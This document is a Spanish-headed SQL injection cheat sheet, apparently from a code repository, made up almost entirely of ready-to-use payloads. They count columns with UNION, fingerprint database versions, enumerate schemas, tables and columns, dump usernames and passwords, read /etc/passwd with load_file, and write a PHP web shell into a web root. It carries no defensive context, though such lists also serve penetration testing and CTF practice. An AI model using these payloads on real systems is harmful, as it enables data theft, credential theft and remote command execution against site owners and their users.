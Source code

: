 ## Número Columnas
```sql
' ORDER BY 1-- -
' ORDER BY 100-- -
' ORDER BY 1,2,3,4,5-- -
' ORDER BY 1,2,3,4,5#

' UNION SELECT NULL,NULL,NULL-- -
' UNION SELECT "Test",2,NULL#
' UNION SELECT @@version,NULL,NULL#
```
### ORACLE
```sql
' UNION SELECT 'NULL','NULL' FROM+dual-- -
```
## Versiones
### ORACLE
```sql
' UNION SELECT BANNER, NULL FROM v$version--
' SELECT version FROM v$instance--
```
### MySQL and Microsoft
```sql
' UNION SELECT @@version, NULL-- -
```
### PostgreSQL
```sql
' UNION SELECT version(), NULL-- -
```
## Nombre de la BD actual
```sql
' UNION SELECT NULL,database(),NULL-- -
' UNION SELECT NULL,database(),NULL#
```
## Usuario
```sql
' UNION SELECT NULL,user(),NULL-- -
' UNION SELECT NULL,user(),NULL#
```
## Enumerar las DB
```sql
UNION SELECT NULL,schema_name,NULL from information_schema.schemata-- -
UNION SELECT NULL,schema_name,NULL from information_schema.schemata limit 1,1-- -
UNION SELECT NULL,schema_name,NULL from information_schema.schemata limit 2,1-- -
UNION SELECT NULL,schema_name,NULL from information_schema.schemata#
UNION SELECT NULL,schema_name,NULL from information_schema.schemata limit 1,1#
```
## Enumerar las Tablas
```sql
UNION SELECT NULL,table_name,NULL from information_schema.tables where table_schema="Colegio"-- -
UNION SELECT NULL,table_name,NULL from information_schema.tables where table_schema="Colegio"#
```
## Enumerar las Columnas
```sql
UNION SELECT NULL,column_name,NULL from information_schema.columns where table_schema="Colegio" and table_name="Users"-- -
UNION SELECT NULL,column_name,NULL from information_schema.columns where table_schema="Colegio" and table_name="Users" limit 1,1-- -
UNION SELECT NULL,column_name,NULL from information_schema.columns where table_schema="Colegio" and table_name="Users"#
UNION SELECT NULL,column_name,NULL from information_schema.columns where table_schema="Colegio" and table_name="Users" limit 2,1#
```
## Data
```sql
UNION SELECT NULL,username,NULL from users-- -
UNION SELECT NULL,password,NULL from users#
UNION SELECT NULL,concat(Username,0x3a,Password),NULL from Colegio.Users-- -
UNION SELECT NULL,concat(Username,0x3a,Password),NULL from Colegio.Users#
```
## Leyendo Archivos
```sql
UNION SELECT NULL,load_file('/etc/passwd'),NULL-- -
UNION SELECT NULL,load_file('/etc/passwd'),NULL#
```
## Escribiendo Archivos
```sql
' union select ("<?php system($_GET['cmd']) ?>") into outfile "C:/xampp/htdocs/shell.php"-- -
```
